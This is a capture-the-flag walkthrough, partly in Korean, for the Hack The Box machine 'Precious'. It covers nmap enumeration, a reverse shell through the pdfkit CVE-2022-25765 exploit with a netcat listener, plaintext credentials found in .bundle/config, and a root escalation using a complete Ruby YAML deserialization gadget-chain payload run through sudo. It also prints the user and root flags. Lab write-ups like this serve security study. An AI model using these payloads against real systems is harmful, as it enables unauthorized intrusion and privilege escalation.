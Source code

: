
# HTB Walkthrough - Precious

**Machine:** Precious  
**Target IP:** 10.129.99.246  

---

## Enumeration

### Nmap Scan
```bash
nmap -sV -sC -oA nmap/Precious 10.129.99.246
```
![nmap](img/nmap.png)

**Open Ports:**
- 22/tcp (OpenSSH 8.4p1 Debian)
- 80/tcp (nginx 1.18.0)

```bash
nmap -Pn -n --open -p- --max-retries 1 --min-rate 2000 -oA nmap/fullTcp 10.129.99.246
```

### /etc/hosts 설정
```
10.129.99.246   precious.htb
```
![webpage](img/webpage.png)

---

## Task 1 - Web Server Software
![burpsuite](img/burpsuite.png)

**A:** `Phusion Passenger`

---

## Task 2 - Scripting Language

**A:** `X-Runtime`

---

## Task 3 - Ruby PDF Library

**A:** `pdfkit`

---

## Task 4 - CVE
![exploit](img/exploit.png)

**A:** `CVE-2022-25765`

---

## Task 5 - Bundler 설정 디렉토리
```bash
cd /home/ruby
ls -al
```
![bundle](img/bundle.png)

**A:** `.bundle`

---

## Initial Foothold (User Access)

```bash
nc -nlvp 9999
python3 exploit.py -s 10.10.14.156 9999 -w http://precious.htb/ -p url
```

리버스 셸 연결 후 `.bundle/config` 에서 henry의 크리덴셜 발견:
```
henry:Q3c1AqGHtoI0aXAYFH
```
![henry](img/henry.png)

```bash
ssh henry@10.129.99.246
Password: Q3c1AqGHtoI0aXAYFH
```

### User Flag
```bash
cat /home/henry/user.txt
```
![userflag](img/userflag.png)

**Flag:** `ba2f03d84f25b774b3b262c153ff72a0`

---

## Task 7 - Sudo 권한 확인
```bash
sudo -l
```
![update_dependencies](img/update_dependencies.png)

**A:** `/usr/bin/ruby /opt/update_dependencies.rb`

---

## Task 8 - 사용자 입력을 받는 파일

```ruby
def list_from_file
  YAML.load(File.read("dependencies.yml"))
end
```

**A:** `dependencies.yml`

---

## Root Privilege Escalation

루트 권한으로 YAML 로드가 가능한 Ruby 스크립트 존재. 이를 이용해 RCE 가능.

### Exploit Payload (dependencies.yml):
```yaml
---
- !ruby/object:Gem::Installer
  i: x
- !ruby/object:Gem::SpecFetcher
  i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
        socket: &1 !ruby/object:Gem::RequestSet
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module 'Kernel'
            method_id: :system
          git_set: /bin/bash
        method_id: :resolve
```

```bash
sudo /usr/bin/ruby /opt/update_dependencies.rb
```
![root](img/root.png)

### Root Flag
```bash
cat /root/root.txt
```
![rootflag](img/rootflag.png)

**Flag:** `18c457ee30e36677778fe36b29518c8d`

---

## 정리
- 초기 취약점: `PDFKit` RCE via URL injection
- 사용자 권한: `.bundle/config`에서 비밀번호 유출
- 루트 권한: `update_dependencies.rb`가 `YAML.load`를 통해 루트로 RCE 가능
